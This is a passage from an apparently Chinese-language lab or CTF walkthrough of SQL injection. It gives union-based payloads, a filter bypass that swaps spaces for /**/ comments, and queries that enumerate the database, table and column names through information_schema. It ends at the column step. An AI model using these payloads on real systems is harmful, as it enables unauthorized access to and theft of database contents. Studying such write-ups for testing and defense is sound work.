 之后开始注入

尝试正常的 union 联合注入

```bash
OSI%' union select database(),2,3 like '1
```

发现没有回显，先尝试是不是空格被过滤了，之后考虑关键词绕过

```bash
OSI%'/**/union/**/select/**/database(),2,3/**/like/**/'1
```

[![](assets/1701678867-d36c13a005fb32b36e172260266f1eee.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128203520-97a1fcf2-8dea-1.png)

再看表名

```bash
OSI%'/**/union/**/select/**/group_concat(table_name),2,3/**/from/**/information_schema.tables/**/where/**/table_schema/**/like/**/'webapp
```

[![](assets/1701678867-c5e681aa604573b6fbc4b91b6a35bec9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128203525-9b22307c-8dea-1.png)

再看字段名

```bash
OSI%'/**/union/**/select/**/group_concat(column_name),2,3/**/from/**/information_schema.columns/**/where/**/table_schema='webapphacking'/**/and/**/table_name/**/like/**/'use
```
